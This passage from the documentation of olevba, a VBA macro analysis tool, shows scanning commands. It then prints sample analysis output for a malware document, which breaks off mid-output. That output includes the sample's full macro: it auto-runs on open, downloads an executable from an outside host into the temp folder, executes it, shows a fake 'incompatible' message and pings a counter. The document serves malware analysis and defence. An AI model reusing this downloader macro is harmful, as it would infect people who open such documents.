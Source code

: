     :::text
    olevba.py file.doc --decode
    
Scan VBA source code extracted into a text file:

    :::text
    olevba.py -i source_code.vba

Scan a collection of files stored in a folder:

    :::text
    olevba.py MalwareZoo/VBA/*
    
Scan all .doc and .xls files, recursively in all subfolders:

    :::text
    olevba.py MalwareZoo/VBA/*.doc MalwareZoo/VBA/*.xls -r
    
Scan all .doc files within all .zip files with password, recursively:

    :::text
    olevba.py MalwareZoo/VBA/*.zip -r -z infected -f *.doc


### Detailed analysis mode (default for single file)

When a single file is scanned, or when using the option -d, all details of the analysis are displayed. 

For example, checking the malware sample [DIAN_caso-5415.doc](https://malwr.com/analysis/M2I4YWRhM2IwY2QwNDljN2E3ZWFjYTg3ODk4NmZhYmE/):

	:::text
    >olevba.py c:\MalwareZoo\VBA\DIAN_caso-5415.doc.zip -z infected
    ===============================================================================
    FILE: DIAN_caso-5415.doc.malware in c:\MalwareZoo\VBA\DIAN_caso-5415.doc.zip
    Type: OLE
    -------------------------------------------------------------------------------
    VBA MACRO ThisDocument.cls
    in file: DIAN_caso-5415.doc.malware - OLE stream: Macros/VBA/ThisDocument
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    Option Explicit
    Private Declare Function URLDownloadToFileA Lib "urlmon" (ByVal FVQGKS As Long,_
    ByVal WSGSGY As String, ByVal IFRRFV As String, ByVal NCVOLV As Long, _
    ByVal HQTLDG As Long) As Long
    Sub AutoOpen()
        Auto_Open
    End Sub
    Sub Auto_Open()
    SNVJYQ
    End Sub
    Public Sub SNVJYQ()
        OGEXYR "http://germanya.com.ec/logs/test.exe", Environ("TMP") & "\sfjozjero.
    exe"
    End Sub
    Function OGEXYR(XSTAHU As String, PHHWIV As String) As Boolean
        Dim HRKUYU, lala As Long
        HRKUYU = URLDownloadToFileA(0, XSTAHU, PHHWIV, 0, 0)
        If HRKUYU = 0 Then OGEXYR = True
        Dim YKPZZS
        YKPZZS = Shell(PHHWIV, 1)
        MsgBox "El contenido de este documento no es compatible con este equipo." &
    vbCrLf & vbCrLf & "Por favor intente desde otro equipo.", vbCritical, "Equipo no
     compatible"
        lala = URLDownloadToFileA(0, "http://germanya.com.ec/logs/counter.php", Envi
    ron("TMP") & "\lkjljlljk", 0, 0)
        Application.DisplayAlerts = False
        Application.Quit